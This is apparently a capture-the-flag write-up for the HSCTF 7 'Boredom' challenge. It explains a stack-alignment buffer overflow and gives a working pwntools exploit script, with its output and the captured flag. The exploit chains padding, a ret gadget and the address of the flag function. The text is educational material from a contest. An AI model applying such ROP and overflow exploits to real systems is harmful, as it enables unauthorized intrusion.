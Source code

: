 # HSCTF 7

## Boredom

> 100
>
> Keith is bored and stuck at home. Give him some things to do.
>
> Connect at `nc pwn.hsctf.com 5002`.
>
> Note, if you're having trouble getting it to work remotely:
>
>    check your offset, the offset is slightly different on the remote server
>    the addresses are still the same
>
> Author: PMP
>
> [`boredom`](boredom) [`boredom.c`](boredom.c)

Tags: _pwn_ _bof_ _rop_ _x86-64_

## Summary

This is the most basic of buffer overflow pwns.  However it's not as simple as smashing the stack and calling `flag`.

I have already explained how to solve this here: [https://github.com/datajerk/ctf-write-ups/tree/master/b01lersctf2020/blind-piloting](https://github.com/datajerk/ctf-write-ups/tree/master/b01lersctf2020/blind-piloting) (search for stack-alignment).


## Exploit

```
#!/usr/bin/python3

from pwn import *

#p = process('./boredom')
p = remote('pwn.hsctf.com', 5002)

binary = ELF('boredom')

context.update(arch='amd64')
rop = ROP('boredom')
try:
	ret = rop.find_gadget(['ret'])[0]
except:
	print("no ROP for you!")
	sys.exit(1)

p.recvuntil('Give me something to do:')

payload  = 0xd8 * b'A'
payload += p64(ret)
payload += p64(binary.symbols['flag'])

p.sendline(payload)
p.stream()
```

Output:

```
# ./exploit.py
[+] Opening connection to pwn.hsctf.com on port 5002: Done
[*] '/pwd/datajerk/hsctf7/boredom/boredom'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 14 cached gadgets for 'boredom'
 Ehhhhh, maybe later.
Hey, that's a neat idea. Here's a flag for your trouble: flag{7h3_k3y_l0n3l1n355_57r1k35_0cff9132}

Now go away.
```

